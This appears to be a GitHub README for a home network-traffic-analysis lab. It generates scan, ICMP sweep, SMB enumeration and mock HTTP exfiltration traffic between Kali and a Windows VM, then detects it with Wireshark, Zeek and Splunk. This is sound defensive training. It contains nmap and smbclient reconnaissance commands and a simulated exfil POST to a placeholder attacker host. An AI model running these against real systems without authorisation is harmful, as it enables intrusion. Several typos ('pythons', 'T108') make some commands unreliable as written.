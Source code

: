  ## ⛓ Network Traffic Analysis (Kali + Windows)
 ### Objective
Capture and analyze network traffic for common attacker behaviors (scan, beacon/HTTP exfil, ICMP sweep, SMB touch) and document detections.

### Lab Topology
- Put Kali and Windows on the same **Host-Only** or Internal network in your hypervisor **(Please see Image 1.1 & 1.2 within the Screenshots folder)**.
- Find IPs **(Please see Image 1.3 & 1.4 within the Screenshots folder)**:
   + Kali: `ip a` (note interface like eth0 or ens33)
     + Kali (attacker/analyst): `<KALI_IP>`
   + Windows: `ipconfig`
     + Windows 10 VM (victim): `<WIN_IP>`

### Tools
- tcpdump / Wireshark (packet capture) 
  + **Kali:** **(Please see Image 2 within the Screenshots folder)**
   ```Bash
   sudo apt update
   sudo apt install -y wireshark tcpdump zeek nmap curl
   ```
  + **Windows:** install **Wireshark (optional) and ensure **PowerShell** is available.

    **Note:** capture on Kali (attacker) while you generate traffic between Kali ↔ Windows.
- Zeek (pcap → structured logs)
- (Optional) Splunk (search/visualize Zeek logs)

### First capture
This is the **Baseline** capture.
1. Method 1: On Kali (replace `eth0` with your interface):

```Bash

Sudo tcpdump -i eth0 -w baseline .pcap
```
Leave this running while you generate traffic (next section). Press **Ctrl+C** to stop and write the file.


2.  Using Wireshark (my preffered option) **(Please Baseline.pcapng in Pcaps folder)**
Start **Wireshark** on Kali → select your interface → click start (blue shar icon) → later click Stop (red square) → Save as `baseline.pcapng`. 


### Scenarios
We’ll do 4 useful, resume-worthy scenarios. Run each while capturing (new pcap per scenario), then stop capture after each.

1. Port scan → `scan_windows.pcapng` (MITRE T1046)
On **Kali:**
See **(Please scan_windows.pcapng in Pcaps folder)** and **(Please see Image 3-4 within the Screenshots folder)**

```bash
Sudo nmap -sS -T4 -p 1-1024 <WINDOWS_IP>

```

Save capture as `scan_windows.pcapng`.
**MITRE:** Discovery (T1046 - Network Service Discovery)
  
2. HTTP beacon/exfil → `http_exfil.pcap` (T1071.001, T1041)
On **Kali**, start a mini web server:
See **(Please http_exfil.pcapng in Pcaps folder)** and **(Please see Image 5-6 within the Screenshots folder)**

```bash
pythons -m http.server 8000

```

On Windows (PowerShell), send a fake “beacon/exfil” POST:

```powershell

Invoke-WebRequest -Uri "http://<KALI_IP>:8000/upload" -Method POST -Body "sample=hello&user=victim1"
Start-Sleep -Seconds 5
Invoke-WebRequest -Uri "http://<KALI_IP>:8000/beat"   -Method GET

```

Stop capture → save as `http_exfil.pcap`.
**MITRE:** Command & Control (T1071.001 - Web Protocols), Exfiltration (T1041 - Exfil over C2 channel)

3. ICMP sweep → `icmp_sweep.pcapng` (T1018)
On **Kali** (pick your /24):
See **(Please icmp_sweep.pcapng in Pcaps folder)** and **(Please see Image 7 within the Screenshots folder)**

```bash

sudo nmap -sn <YOUR_SUBNET>/24

```

Save as `icmp_sweep.pcap`.
**MITRE:** Discovery (T108 - Remote System Discovery)

4. SMB touch → `smb_touch.pcap` (T1135)
From **Kali** (non-auth listing may fail harmlessly but still generates traffic):
See **(Please smb_touch.pcapng in Pcaps folder)** and **(Please see Image 8 within the Screenshots folder)**

```bash
smbclient -L //<WINDOWS_IP>/ -N

```
Save as `smb_touch.pcap`.
**MITRE:** Discovery (T1135 - Network Share Discovery), Lateral Movement (surface only)
Tip: Keep pcaps <50-100 MB; if larger, zip them.

### Quick Wireshark Analysis
Open each .pcapng` in Wireshark and use these **display filters:**

**Port scan**
- SYNs without ACKs (half-open):
```ini

tcp.flags.syn==1 && tcp.flags.ack==0

```
- Dest port heatmap: Statistics → Endpoints/Conversations.

**HTTP beacon/exfil**
- HTTP POSTs:
```ini

ip.dst == <KALI_IP> && http

```

- All HTTP to Kali:

```ini

ip.dst == <KALI_IP> && http

```

**ICMP sweep**

```go

icmp && ip.dst==<SUBNET_RANGE> && icmp.type==8

```

**SMB**
```ini

tcp.port==445 || tcp.port==139

```

Export screenshots: flow graphs (Statistics → Flow Graph), packet details, conversation lists.

### Zeek - Powerful logs from pcapng

```bash
mkdir -p ~/zeek_out/scan ~/zeek_out/http ~/zeek_out/icmp ~/zeek_out/smb

zeek -Cr scan_windows.pcap    Log::default_path=~/zeek_out/scan
zeek -Cr http_exfil.pcap      Log::default_path=~/zeek_out/http
zeek -Cr icmp_sweep.pcap      Log::default_path=~/zeek_out/icmp
zeek -Cr smb_touch.pcap       Log::default_path=~/zeek_out/smb

```
You'll get logs like `conn.log`, `http.log`, `ssl.log`, `dns.log` (if present), etc.

**Quick reads**
```bash
# Top 10 destination ports from the scan
cat ~/zeek_out/scan/conn.log | zeek-cut id.resp_p | sort -n | uniq -c | sort -nr | head

# HTTP paths & methods in exfil
cat ~/zeek_out/http/http.log | zeek-cut method host uri | head

# ICMP talkers
cat ~/zeek_out/icmp/conn.log | zeek-cut id.orig_h id.resp_h proto service | grep icmp | head

```
### Splunk the Zeek logs (Optional)
If Splunk is on **Windows VM**, share/copy Zeek logs to Windows (e.g., `C:\lab\zeek\http\...`) and add as a data input:

- Splunk → **Settings → Add Data → Monitor → Files & Directories** → select the Zeek folder.
- Set sourcetype(s) to something like `zeek:conn`, `zeek:http` (or `automatic` to start).

Example searches:
```spl

index=* sourcetype=zeek:conn
| stats count dc(id.resp_p) AS unique_ports BY id.orig_h
| sort -count

```

```spl

index=* sourcetype=zeek:http
| stats count BY method host uri
| sort -count

```
### How to Reproduce
See `reports/NTA_Methodology.md` for exact commands and Wireshark filters.

### Findings
- `reports/Findings_scan.md`
- `reports/Findings_http.md`
- `reports/Findings_icmp.md`
- `reports/Findings_smb.md`

### Evidence
- `pcaps/` (captured traffic)
- `zeek/` (parsed logs)
- `screenshots/` (Wireshark/Splunk)

### Talking point about this project
- Confidentiality: Show exfil attempt over HTTP and how you detected it (Zeek HTTP logs, Wireshark POSTs).

- Integrity: Explain why structured Zeek logs preserve evidence better than raw pcaps alone.

- Availability: Show how scans/sweeps can precede DoS and how you’d baseline normal vs. noisy traffic.
